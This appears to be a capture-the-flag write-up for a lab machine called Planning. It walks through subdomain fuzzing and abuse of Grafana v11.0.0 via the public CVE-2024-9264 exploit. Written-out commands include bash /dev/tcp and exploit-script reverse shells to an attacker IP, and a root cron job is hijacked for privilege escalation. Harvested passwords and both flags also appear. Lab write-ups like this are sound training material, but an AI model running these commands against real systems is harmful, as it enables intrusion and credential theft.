 Let's scan the machine
```bash
sudo nmap -v -sC -sV 10.10.11.68
```

![image](images/20250622124922.png)

There is an open `80` port. Let's go to the site

![image](images/20250622131416.png)

Let's try to find subdomains
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -u http://planning.htb -H "HOST:FUZZ.planning.htb" -t 100 -fs 178
```

![image](images/20250622160312.png)

Subdomain `grafana` was found. Let's add it to `/etc/hosts` and switch to it
The machine description says that there are such credentials: `admin / 0D5oT70Fq13EvB5r`

![image](images/20250622160458.png|400)


![image](images/20250622160524.png)

Found user `dedsec007` in `Home > Administration > Users and access > Users`:

![image](images/20250622160646.png)

We see that this is `Grafana v11.0.0`

![image](images/20250622160819.png)

Most likely, there are vulnerabilities in this version.
One of them is [CVE-2024-9264](https://github.com/nollium/CVE-2024-9264) or [CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit) from another person. Let's try to read the file:
```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd http://grafana.planning.htb
```

![image](images/20250622161711.png)

```bash
python3 poc.py --url http://grafana.planning.htb --user admin --password 0D5oT70Fq13EvB5r --file /etc/passwd
```

![image](images/20250622164047.png)

Get access to the shell:
```bash
python3 poc.py --url http://grafana.planning.htb --user admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.117 --reverse-port 4444
```
On the host:
```bash
sudo ncat -lvnp 4444
```

![image](images/20250622164614.png)

Let's check if we are in a container:
```bash
ls -la /
```

![image](images/20250622165844.png)

There is `.dockerenv`, which means we are in a container. Let's check `env`
```bash
env
```

![image](images/20250622165753.png)

Found the password for the admin `enzo`:
```Passsword
RioTecRANDEntANT!
```
Let's connect to it via `SSH`:

![image](images/20250622170237.png)

The first flag is:
```flag
b26b1e2b8bffae76b27f9054116664b2
```
There is a file `crontab.db` in the directory `opt/crontabs/`. After reading it, I found some password:
```Password
P4ssw0rdS0pRi0T3c
```

![image](images/20250622181319.png)

Let's check the locally running services:
```bash
netstat -tulpn
```

![image](images/20250622181356.png)

```
0.0.0.0:80 - Web server (probably Nginx/Apache)
127.0.0.1:3000 - Grafana (local access only)
127.0.0.1:3306 - MySQL server
127.0.0.1:8000 - Unknown service
```
Let's create an SSH tunnel to get access to `localhost:8000` on your machine:
```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```
Go to this address. It asked for login and password. The following credentials worked:
```Credentials
root:P4ssw0rdS0pRi0T3c
```

![image](images/20250622181738.png)


![image](images/20250622181543.png)

There is a task `Cleanup`, which executes the script `/root/scripts/cleanup.sh`, which can only be called by `root`. Let's change the rule to get a reverse shell:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.117/4445 0>&1'
```
On the host:
```bash
sudo ncat -lvnp 4445
```

![image](images/20250622182400.png|500)

Save and click `Run now`. After that, we get a reverse shell and the second flag:

![image](images/20250622182511.png)

```flag
c4496c43cd07d73b544c704543518d62
```
